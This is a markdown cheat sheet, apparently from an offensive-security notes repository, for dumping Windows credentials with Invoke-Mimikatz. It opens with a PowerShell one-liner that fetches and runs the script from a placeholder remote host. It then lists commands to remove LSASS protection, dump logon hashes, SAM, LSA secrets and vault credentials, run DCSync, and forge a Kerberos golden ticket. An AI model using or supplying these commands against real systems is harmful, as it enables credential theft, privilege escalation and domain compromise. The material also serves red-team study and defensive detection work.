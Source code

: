 # Get em' all!

Invoke: `iex(New-Object net.webclient).downloadstring('http://ip/Invoke-Mimikatz.ps1')`

### Disable PPL

- `Invoke-Mimikatz -Command '"!processprotect /process:lsass.exe /remove"'`

### Each one at a time

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch"'` - Get passwords of scheduled tasks.
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'` - Dump logged-on Accounts hashes.
- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'` - Local Accounts Credentials
- `Invoke-Mimikatz -Command '"privilege::debug" sekurlsa::ekeys"'` - List Kerberos encryption keys
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::credman"'` - List Credentials Manager
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::ssp"'` - Lists SSP credentials
- `Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::wdigest"'` - List WDigest credentials
- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::secrets"'` - Dump LSA secrets

### All in one

- `Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "lsadump::sam" "sekurlsa::credman" "sekurlsa::ssp" "sekurlsa::wdigest" "sekurlsa::logonpasswords" "lsadump::secrets"'`

### DCSync

- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:NETBIOS\USER"'` - Maybe domain controller need to be specified too with `/dc:<DC FQDN>`.

### Golden Ticket

- `Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:DOMAIN.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:HASH id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`
